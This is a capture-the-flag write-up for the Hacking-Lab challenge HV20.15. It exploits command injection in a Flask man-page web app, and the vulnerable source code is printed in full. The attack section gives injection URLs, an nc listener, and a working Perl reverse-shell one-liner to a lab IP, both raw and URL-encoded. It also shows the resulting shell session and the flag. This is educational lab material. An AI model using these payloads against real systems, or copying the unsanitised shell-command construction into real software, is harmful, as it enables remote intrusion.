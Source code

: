 # HV20.15 Man Commands, Server Lost

## Introduction

_Elf4711 has written a cool front end for the linux man pages. Soon after publishing he got pwned. In the meantime he found out the reason and improved his code. So now he is sure it's unpwnable._

## Notes

- _You need to start the web application from the `RESOURCES` section on top_
- _This challenge requires a VPN connection into the Hacking-Lab. Check out the document in the `RESOURCES` section._

## Hints

- _Don't miss the source code link on the man page_

---

The web page looks like this:

![](web.png)

At the bottom, there is a link to the source code:
```python
# flask_web/app.py

from flask import Flask,render_template,redirect, url_for, request
import os
import subprocess
import re

app = Flask(__name__)

class ManPage:
  def __init__(self, name, section, description):
    self.name = name
    self.section = section
    self.description = description

@app.route('/')
def main():
  return redirect('/man/1/man')

@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)

@app.route('/man/')
@app.route('/man/<section>/<command>')
def manpage(section=1, command="bash"):
  manFile = "/usr/share/man/man" + str(section) + "/" + command + "." + str(section) + ".gz"
  cmd = 'cat ' + manFile + '| gunzip | groff -mandoc -Thtml'
  try: 
    result = subprocess.run(['sh', '-c', cmd ], stdout=subprocess.PIPE)
  except subprocess.CalledProcessError as grepexc:                                                                                                   
    return render_template('manpage.html', command=command, manpage="NOT FOUND")

  html = result.stdout.decode("utf-8")
  htmlLinked = re.sub(r'(<b>|<i>)?([a-zA-Z0-9-_.]+)(</b>|</i>)?\(([1-8])\)', r'<a href="/man/\4/\2">\1\2\3</a><a href="/section/\4">(\4)</a>', html)
  htmlStripped = htmlLinked[htmlLinked.find('<body>') + 6:htmlLinked.find('</body>')]
  return render_template('manpage.html', command=command, manpage=htmlStripped)

@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
  
def parseCommands(ret):
  commands = []
  for line in ret.split('\n'):
    l = line.split(' - ')
    if (len(l) > 1):
      m = l[0].split();
      manPage = ManPage(m[0], m[1].replace('(', '').replace(')',''), l[1])
      commands.append(manPage)
  return commands

if __name__ == "__main__":
  app.run(host='0.0.0.0' , port=7777)
```

The `manpage` method is vulnerable to command injection. Just try to change the URL into `/man/1/;sleep%205;` and
observe the response is delayed.

We were supposed to use a VPN for this challenge. I downloaded [Hacking-Lab LiveCD](https://livecd.hacking-lab.com/)
with pre-configured VPN to save troubles with setting up that manually.

To make sure the VPN works, I tried to inject `ping` command.
- In the VM, start listening for ICMP packets: `tcpdump -i tap0 ip proto \\icmp`
- Inject `ping -c 3 10.13.0.6` command: `/man/1/;ping%20-c%203%2010.13.0.6;`

Bingo, I started receiving ICMP packets in the VM:
```
$ tcpdump -i tap0 ip proto \\icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tap0, link-type EN10MB (Ethernet), capture size 262144 bytes
09:51:06.311400 IP 152.96.7.3 > 10.13.0.6: ICMP echo request, id 101, seq 1, length 64
09:51:06.311626 IP 10.13.0.6 > 152.96.7.3: ICMP echo reply, id 101, seq 1, length 64
09:51:07.310833 IP 152.96.7.3 > 10.13.0.6: ICMP echo request, id 101, seq 2, length 64
09:51:07.310902 IP 10.13.0.6 > 152.96.7.3: ICMP echo reply, id 101, seq 2, length 64
09:51:08.312229 IP 152.96.7.3 > 10.13.0.6: ICMP echo request, id 101, seq 3, length 64
09:51:08.312302 IP 10.13.0.6 > 152.96.7.3: ICMP echo reply, id 101, seq 3, length 64
```

### Getting a reverse shell

The first step is start listening for the incoming connection (in your VM):
```
$ nc -l -v 10.13.0.6 2797
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on 10.13.0.6:2797
```

Then I tried some payloads from [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
but none of them worked (returning `HTTP 404`).

To debug why they didn't work, I downloaded the source code and ran the app locally with some extra print statements.
This is the reason: https://github.com/pallets/flask/issues/900

Luckily, it was easy to fix the payload not to contain any `/`.

I used this one:
```
perl -e 'use Socket;$i="10.13.0.6";$p=2797;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

This is the final payload:
```
/man/1/;perl%20-e%20%27use%20Socket%3B%24i%3D%2210.13.0.6%22%3B%24p%3D2797%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22sh%20-i%22%29%3B%7D%3B%27;
```

Once executed, the shell went alive:
```
Ncat: Connection from 152.96.7.3.
Ncat: Connection from 152.96.7.3:60392.
sh: 0: can't access tty; job control turned off

$ ls -la
total 8
drwxr-xr-x.   1 root root   17 Dec 15 10:53 .
drwxr-xr-x.   1 root root   17 Dec 15 10:53 ..
-rwxr-xr-x.   1 root root    0 Dec 15 10:53 .dockerenv
drwxr-xr-x.   1 root root  179 Dec 14 18:03 bin
drwxr-xr-x.   2 root root    6 Nov 22 12:37 boot
drwxr-xr-x.   5 root root  340 Dec 15 10:53 dev
drwxr-xr-x.   1 root root   66 Dec 15 10:53 etc
-rw-rw-r--.   1 root root   36 Oct 27 16:04 flag
drwxr-xr-x.   1 root root   20 Dec 14 18:05 home
...

$ cat flag
HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}
```

The flag is `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`
